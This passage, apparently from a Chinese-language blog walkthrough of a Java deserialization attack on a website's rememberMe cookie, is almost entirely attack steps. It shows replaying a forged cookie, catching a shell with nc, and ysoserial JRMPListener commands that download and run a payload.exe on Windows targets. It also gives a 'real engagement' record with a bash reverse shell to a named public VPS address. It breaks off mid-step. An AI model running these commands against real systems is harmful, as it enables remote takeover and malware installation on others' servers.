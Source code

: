 

复制生成的rememberMe的值，替换所有的cookie，重放



![](https://img-blog.csdnimg.cn/20200502163546634.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



nc监听收到shell



![](https://img-blog.csdnimg.cn/20200502163629725.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



注：如果目标服务器是Windows环境的话，则不能一键反弹shell，可以先远程下载木马，然后执行。



```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections5 'wget x.x.x.x/payload.exe -O payload.exe'      
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections5 './payload.exe'
```




实战记录

----



以下是做项目过程中的实战记录



**环境：**



*   我们的公网VPS：114.118.80.138

*   存在漏洞的网站：http://www.test.com

*   Windows主机



**第一步：**在我们的VPS上搭建一个web服务，该web服务下放一个反弹shell的脚本文件 1.sh，1.sh的内容如下



```
bash -i >& /dev/tcp/114.118.80.138/8888 0>&1       
python -m SimpleHTTPServer 8080
```




![](https://img-blog.csdnimg.cn/20190803230317360.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**第二步：**然后在我们的VPS上执行下列命令，意思是下载我们的1.sh,并且重命名为test
